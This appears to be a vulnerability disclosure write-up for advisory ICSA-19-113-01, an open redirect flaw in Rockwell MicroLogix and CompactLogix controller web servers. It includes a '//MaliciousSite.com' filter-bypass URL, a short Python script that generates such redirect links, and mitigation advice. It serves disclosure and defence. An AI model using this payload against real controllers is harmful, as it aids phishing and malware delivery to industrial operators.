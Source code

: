 # Overview of ICSA-19-113-01

The following Rockwell Automation products were discovered to contain an open redirect vulnerability:

* MicroLogix 1400 Controllers
* Series A, All Versions
* Series B, v15.002 and earlier
* MicroLogix 1100 Controllers v14.00 and earlier
* CompactLogix 5370 L1 controllers v30.014 and earlier
* CompactLogix 5370 L2 controllers v30.014 and earlier
* CompactLogix 5370 L3 controllers (includes CompactLogix GuardLogix controllers) v30.014 and earlier

# Open Redirect Vulnerabilities

An Open Redirect vulnerability occurs when a web application accepts user-supplied input in the URL that contains a link to an external website, redirecting the user's browser to a malicious website. 
The Open Redirect vulnerability discovered in various Rockwell Controllers is no exception to this rule. Each controller runs a web server that displays diagnostics about that specific PLC. There also exists a URL parameter that enables the PLC to redirect the user’s browser:

```
http://192.168.1.12/index.html?redirect=/localpage
```

The redirect parameter intends to send users to another page located on the PLCs website. Under normal circumstances, the PLC would filter out redirects to an external website, so if you tried the following:

```
http://192.168.1.12/index.html?redirect=/externalsite
```

it would filter out the request and prevent the browser from being sent to a malicious site. However, the PLCs redirect filter does not account for the various ways to enter a URL like so:

```
http://192.168.1.12/index.html?redirect=//MaliciousSite.com
```

From the browser’s perspective, the second ‘/’ character will be ignored, making it a valid URL yet bypassing the PLCs filter. The browser will then be redirected to the website provided after the second ‘/’. This type of client-side attack can aid in phishing campaigns to setup browser exploits or install malware.

# Proof of Concept Exploit

```
import argparse

parser = argparse.ArgumentParser(description='Callback Script')
parser.add_argument('-r', '--redirect', required=True, dest="redirect", action='store', help='Redirect Destination IP')		
parser.add_argument('-p', '--plc', required=True, dest="plc", action='store', help='Rockwell Controller IP')	
args = parser.parse_args()  #Parse Command Line Arguments

print("Generating link...")
print("http://"+args.plc+"/index.html?redirect=//"+args.redirect)

```

# Disclosure

The vulnerabilities were immediately reported to the National Cybersecurity and Communications Integration Center (NCCIC) by security researchers Josiah Bryan and Geancarlo Palavicini. You can find the full advisory [here](https://www.cisa.gov/uscert/ics/advisories/ICSA-19-113-01).

# Mitigation

Rockwell Automation has released an update for each of the affected devices. Rockwell also recommends users take defensive measures to minimize the risk of exploitation of this vulnerability. Specifically, users should:

* Update to the latest available firmware revision that addresses the associated risk.
* Use trusted software, software patches, anti-virus/anti-malware programs, and interact only with trusted websites and attachments.
* Minimize network exposure for all control system devices and/or systems, and ensure that they are not accessible from the Internet.
* Locate control system networks and devices behind firewalls and isolate them from the business network.
* When remote access is required, use secure methods such as virtual private networks (VPNs), recognizing that VPNs may have vulnerabilities and should be updated to the most current version available. VPN is only as secure as the connected devices.
* Employ training and awareness programs to educate users on the warning signs of a phishing or social engineering attack.
